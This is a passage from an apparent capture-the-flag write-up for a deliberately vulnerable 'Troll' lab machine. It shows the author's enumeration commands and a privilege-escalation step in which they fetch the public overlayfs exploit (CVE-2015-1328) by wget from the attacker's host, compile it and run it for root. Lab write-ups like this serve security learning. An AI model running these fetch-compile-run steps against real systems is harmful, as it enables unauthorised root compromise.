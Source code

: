 ### 5. Enumeration
Enumeration is tricky on this machine as you get periodically kicked off.
```bash
overflow@troll:/var/www/html$ ls
0x0856BF  hacker.jpg  index.html  robots.txt  secret  sup3rs3cr3tdirlol
                                                                               
Broadcast Message from root@trol                                               
        (somewhere) at 17:15 ...                                               
                                                                               
TIMES UP LOL!                                                                  
                                                                               
Connection to 192.168.34.152 closed by remote host.
Connection to 192.168.34.152 closed.
```
Operating system details:
```bash
overflow@troll:/$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.1 LTS"
NAME="Ubuntu"
VERSION="14.04.1 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.1 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

overflow@troll:/$ cat /proc/version
Linux version 3.13.0-32-generic (buildd@roseapple) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014
```
This OS and kernel version is pretty old now, so there should be vulnerabilities for privesc.

### 6. Escalate to root
References:
- https://www.exploit-db.com/exploits/37292
- https://ubuntu.com/security/CVE-2015-1328

The overlayfs local privilege escalation exploit for kernel versions before 13.19, exploits a lack of restrictions on file creation on upper overlayfs namespaces, allowing a user to leverage and get command execution as the root user. It is known to be pretty reliable, however due to the age of this kernel, there probably exists more paths to root beyond this.

```bash
overflow@troll:/tmp$ wget http://192.168.34.141:8000/37292.c
--2021-03-13 17:26:21--  http://192.168.34.141:8000/37292.c
Connecting to 192.168.34.141:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: ‘37292.c’

100%[========================================================================================================================================================================================================================>] 5,119       --.-K/s   in 0s      

2021-03-13 17:26:21 (331 MB/s) - ‘37292.c’ saved [5119/5119]

overflow@troll:/tmp$ gcc 37292.c -o giveroot
overflow@troll:/tmp$ ./giveroot
```